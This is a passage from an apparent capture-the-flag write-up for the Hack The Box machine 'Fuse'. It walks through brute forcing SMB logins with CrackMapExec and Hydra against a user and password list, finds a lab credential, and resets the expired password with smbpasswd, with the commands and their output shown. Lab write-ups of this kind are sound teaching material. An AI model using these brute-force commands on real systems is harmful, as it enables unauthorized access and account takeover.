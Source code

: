 ```
supplied
pdfLETTER
WordLETTER
Untitled
```

A few of these jump out as really good candidates, but let's use them all.

Before brute forcing passwords and users, I try SMB just to see if guest is enabled (smbclient -L 10.10.10.193).  It is not.  :(  We definitely need credentials.

## Hackin

Let me introduce to you a tool that I recently learned about: CrackMapExec (cme).  It's a versatile tool created by the famous byt3bl33d3r of BHIS and you should check out: [cme](https://github.com/byt3bl33d3r/CrackMapExec).  Let's run it and use SMB while feeding it a file of users and a file of those passwords:

> cme smb 10.10.10.193 -u /root/Desktop/htb/fuse/fuse_users -p /root/Desktop/htb/fuse/fuse_words.txt

Nothing... nothing... the anticipation of watching this thing is worse than staring at your microwave while your stomach growls at the hot pocket inside.  FINALLY!

```
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\tlavel:Fabricorp01 STATUS_PASSWORD_MUST_CHANGE
```

Huh?  Password must change?  That's weird.  None of the other combos worked though.  I used CME because it was a new tool I wanted to try.  The password thing throws me off so I try trusty old Hydra:

> hydra -L /root/Desktop/htb/fuse/fuse_users -P /root/Desktop/htb/fuse/fuse_words.txt 10.10.10.193 smb -V -f

The output is long (630 combinations), but here is what I want you to see:

```
ATTEMPT] target 10.10.10.193 - login "tlavel" - pass "Fabricorp01" - 63 of 630 [child 0] (0/0)
[445][smb] host: 10.10.10.193   login: tlavel   password: Fabricorp01

```

Notice that Hydra doesn't gather the addditional info and inform us that the password has expired.  Interesting!  CME seems to be the better tool for brute forcing SMB passwords.

Anyway, let's login with out new creds.  

```
smbclient -L 10.10.10.193 -U "tlavel"
Enter WORKGROUP\tlavel's password: 
session setup failed: NT_STATUS_PASSWORD_MUST_CHANGE
```

Ok, so even though CME found it first, we still would've discovered this... So how do I change the users password?   A little interwebs searching leads me to the smbpasswd utility:

```
smbpasswd -U tlavel -r fabricorp.local
Old SMB password:
New SMB password:
Retype new SMB password:
Password changed for user tlavel on fabricorp.local.
```
